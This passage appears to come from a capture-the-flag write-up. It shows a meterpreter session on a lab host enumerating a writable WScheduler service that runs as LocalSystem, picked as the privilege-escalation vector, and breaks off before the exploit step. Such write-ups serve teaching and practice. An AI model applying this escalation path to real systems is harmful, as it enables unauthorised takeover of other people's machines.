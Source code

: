 In addition to a ton of information about the host, there appears to be an administrator set of credentials, as well as a service (WScheduler) that is locally modifiable and running as an administrative user. Since this appeared to be the intended attack vector, I decided to attack this further.

### Attacking WScheduler

I started by taking a look at the `WScheduler` service

```powershell
c:\Program Files (x86)\SystemScheduler>sc qc WindowsScheduler
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: WindowsScheduler
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : C:\PROGRA~2\SYSTEM~1\WService.exe
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : System Scheduler Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```

```bash
meterpreter > cd PrograProgram Files  "Program Files (x86)" 
meterpreter > cd SystemScheduler 
meterpreter > ls
Listing: c:\Program Files (x86)\SystemScheduler
===============================================

Mode              Size     Type  Last modified              Name
----              ----     ----  -------------              ----
40777/rwxrwxrwx   4096     dir   2019-08-04 11:36:53 +0000  Events
100666/rw-rw-rw-  60       fil   2019-08-04 11:36:42 +0000  Forum.url
100666/rw-rw-rw-  9813     fil   2019-08-04 11:36:42 +0000  License.txt
100666/rw-rw-rw-  1496     fil   2019-08-04 11:37:02 +0000  LogFile.txt
100666/rw-rw-rw-  3760     fil   2019-08-04 11:36:53 +0000  LogfileAdvanced.txt
100777/rwxrwxrwx  536992   fil   2019-08-04 11:36:42 +0000  Message.exe
100777/rwxrwxrwx  445344   fil   2019-08-04 11:36:42 +0000  PlaySound.exe
100777/rwxrwxrwx  27040    fil   2019-08-04 11:36:42 +0000  PlayWAV.exe
100666/rw-rw-rw-  149      fil   2019-08-04 11:36:53 +0000  Preferences.ini
100777/rwxrwxrwx  485792   fil   2019-08-04 11:36:42 +0000  Privilege.exe
100666/rw-rw-rw-  10100    fil   2019-08-04 11:36:42 +0000  ReadMe.txt
100777/rwxrwxrwx  112544   fil   2019-08-04 11:36:42 +0000  RunNow.exe
100777/rwxrwxrwx  235936   fil   2019-08-04 11:36:42 +0000  SSAdmin.exe
100777/rwxrwxrwx  731552   fil   2019-08-04 11:36:42 +0000  SSCmd.exe
100777/rwxrwxrwx  456608   fil   2019-08-04 11:36:42 +0000  SSMail.exe
100777/rwxrwxrwx  1633696  fil   2019-08-04 11:36:42 +0000  Scheduler.exe
100777/rwxrwxrwx  491936   fil   2019-08-04 11:36:42 +0000  SendKeysHelper.exe
100777/rwxrwxrwx  437664   fil   2019-08-04 11:36:42 +0000  ShowXY.exe
100777/rwxrwxrwx  439712   fil   2019-08-04 11:36:42 +0000  ShutdownGUI.exe
100666/rw-rw-rw-  785042   fil   2019-08-04 11:36:42 +0000  WSCHEDULER.CHM
100666/rw-rw-rw-  703081   fil   2019-08-04 11:36:42 +0000  WSCHEDULER.HLP
100777/rwxrwxrwx  136096   fil   2019-08-04 11:36:42 +0000  WSCtrl.exe
100777/rwxrwxrwx  68512    fil   2019-08-04 11:36:42 +0000  WSLogon.exe
100666/rw-rw-rw-  33184    fil   2019-08-04 11:36:42 +0000  WSProc.dll
100666/rw-rw-rw-  2026     fil   2019-08-04 11:36:42 +0000  WScheduler.cnt
100777/rwxrwxrwx  331168   fil   2019-08-04 11:36:42 +0000  WScheduler.exe
100777/rwxrwxrwx  98720    fil   2019-08-04 11:36:42 +0000  WService.exe
100666/rw-rw-rw-  54       fil   2019-08-04 11:36:42 +0000  Website.url
100777/rwxrwxrwx  76704    fil   2019-08-04 11:36:42 +0000  WhoAmI.exe
100666/rw-rw-rw-  1150     fil   2019-08-04 11:36:42 +0000  alarmclock.ico
100666/rw-rw-rw-  766      fil   2019-08-04 11:36:42 +0000  clock.ico
100666/rw-rw-rw-  80856    fil   2019-08-04 11:36:42 +0000  ding.wav
```